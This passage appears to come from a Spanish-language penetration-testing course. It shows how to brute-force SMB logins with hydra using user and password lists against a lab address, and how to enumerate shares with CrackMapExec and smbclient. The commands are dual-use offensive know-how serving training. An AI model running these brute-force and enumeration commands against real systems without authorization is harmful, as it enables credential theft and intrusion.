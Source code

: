 SMB también se conoce como [Common Internet File System](https://cifs.com/) (`CIFS`). Es parte del protocolo SMB y permite la conexión remota universal de múltiples plataformas como Windows, Linux o macOS. Además, a menudo encontraremos [Samba](https://wiki.samba.org/index.php/Main_Page), que es una implementación de código abierto de las funciones mencionadas. Para SMB, también podemos usar `hydra` nuevamente para probar diferentes nombres de usuario en combinación con diferentes contraseñas.

### Hydra - SMB

```r
hydra -L user.list -P password.list smb://10.129.42.197
```

Sin embargo, también podemos obtener el siguiente error que describe que el servidor ha enviado una respuesta inválida.

### Hydra - Error

```r
hydra -L user.list -P password.list smb://10.129.42.197
```

Esto se debe a que muy probablemente tenemos una versión desactualizada de THC-Hydra que no puede manejar las respuestas de SMBv3. Para solucionar este problema, podemos actualizar y recompilar `hydra` manualmente o usar otra herramienta muy poderosa, el [Metasploit framework](https://www.metasploit.com/).

### Metasploit Framework

```r
msfconsole -q
```

Ahora podemos usar `CrackMapExec` nuevamente para ver las comparticiones disponibles y qué privilegios tenemos para ellas.

### CrackMapExec

```r
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Para comunicarnos con el servidor a través de SMB, podemos usar, por ejemplo, la herramienta [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html). Esta herramienta nos permitirá ver los contenidos de las comparticiones, subir o descargar archivos si nuestros privilegios lo permiten.

### Smbclient

```r
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

**`Nota:`** Para completar las preguntas del desafío, asegúrate de descargar las listas de palabras proporcionadas en los Recursos en la parte superior de la página.